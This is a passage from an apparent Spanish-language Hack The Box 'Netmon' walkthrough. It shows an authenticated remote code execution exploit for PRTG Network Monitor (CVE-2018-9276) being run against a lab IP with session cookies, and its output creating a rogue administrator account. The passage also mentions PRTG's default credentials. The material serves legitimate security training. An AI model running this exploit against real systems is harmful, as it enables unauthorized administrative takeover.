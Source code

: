 <br>Le tenemos que agregar las cookies de sesión válidas.

<p style="text-align:center;"><img src="../assets/images/Netmon/cookies.png"></p>

<br>Ejecutamos el script.

```zsh
❯ ./46527.sh -u http://10.10.10.152 -c "_ga=GA1.4.1675455584.1657501671; _gid=GA1.4.1296130676.1658777663; OCTOPUS1813713946=ezU2M0FCNzU2LURFRjAtNEE4Ny04NDNFLUIwRTAwNEJGNjE5QX0%3D; _gat=1"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 

```
Se ha creado el usuario administrador `pentest` con la contraseña `P3nT3st!`.
